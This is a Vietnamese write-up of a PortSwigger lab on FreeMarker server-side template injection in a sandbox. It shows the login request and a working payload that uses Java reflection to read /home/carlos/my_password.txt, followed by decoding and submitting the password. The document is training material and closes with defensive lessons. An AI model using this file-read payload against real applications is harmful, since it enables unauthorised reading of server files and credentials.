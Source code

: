 # Write-up: Server-side template injection in a sandboxed environment

### Tổng quan
Khai thác lỗ hổng **Server-Side Template Injection (SSTI)** trong ứng dụng web sử dụng template engine FreeMarker trong môi trường sandbox. Bằng cách sử dụng payload FreeMarker để truy cập lớp Java và đọc file `/home/carlos/my_password.txt`, kẻ tấn công lấy được mật khẩu dưới dạng mã ASCII, chuyển đổi thành chuỗi `k4i2oz710qlriz7272up`, và nộp giải pháp để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **SSTI** trong template FreeMarker, đọc nội dung file `/home/carlos/my_password.txt`, chuyển đổi mã ASCII thành mật khẩu, và nộp giải pháp để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `content-manager:C0nt3ntM4n4g3r`:  
  ```
  POST /login HTTP/2
  Host: 0aj9017r18st9012n0op167800qr00on.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded

  username=content-manager&password=C0nt3ntM4n4g3r
  ```  
- Truy cập chức năng chỉnh sửa template, quan sát thấy ứng dụng sử dụng cú pháp FreeMarker `${product.price}` để render thông tin sản phẩm:  
  ![Template FreeMarker](./images/1_edit.png)  

2. **Khai thác để đọc file `/home/carlos/my_password.txt`**  
- Dựa trên tài liệu FreeMarker và Java, tạo payload để đọc file trong môi trường sandbox:  
  ```
  POST /template/edit HTTP/2
  Host: 0aj9017r18st9012n0op167800qr00on.web-security-academy.net
  Cookie: session=...
  Content-Type: application/x-www-form-urlencoded

  template=${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
  ```  
- Kết quả: Server trả về nội dung file `/home/carlos/my_password.txt` dưới dạng mã ASCII:  
  ```
  107 52 105 50 111 122 55 49 48 113 108 114 105 122 55 50 55 50 117 112
  ```  
- Chuyển đổi mã ASCII sang chuỗi:  
  - 107 → k, 52 → 4, 105 → i, 50 → 2, 111 → o, 122 → z, 55 → 7, 49 → 1, 48 → 0, 113 → q, 108 → l, 114 → r, 105 → i, 122 → z, 55 → 7, 50 → 2, 55 → 7, 50 → 2, 117 → u, 112 → p  
  - Kết quả: `k4i2oz710qlriz7272up`  
  ![Nội dung my_password.txt](./images/2_string.png)  

3. **Hoàn thành lab**  
- Nộp mật khẩu `k4i2oz710qlriz7272up` vào phần **Submit solution** của lab:  
  ```
  POST /submitSolution HTTP/2
  Host: 0aj9017r18st9012n0op167800qr00on.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded

  solution=k4i2oz710qlriz7272up
  ```  
- Kết quả: Lab xác nhận hoàn thành:  
  ![Lab hoàn thành](./images/3_solved.png)  

- **Ý tưởng payload**:  
  - Sử dụng SSTI trong FreeMarker để truy cập lớp Java, đọc file `/home/carlos/my_password.txt` dưới dạng mã ASCII, chuyển đổi thành chuỗi và nộp giải pháp.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng **Server-Side Template Injection** trong FreeMarker, sử dụng các phương thức Java để đọc file hệ thống trong môi trường sandbox.  
- Nhận thức tầm quan trọng của việc cấu hình sandbox chặt chẽ, lọc đầu vào người dùng trong template engine, và vô hiệu hóa truy cập các lớp Java nhạy cảm để ngăn chặn rò rỉ thông tin.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Server-Side Template Injection** trong FreeMarker trong môi trường sandbox, nhấn mạnh tầm quan trọng của việc cấu hình sandbox và lọc đầu vào để ngăn chặn đọc file trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*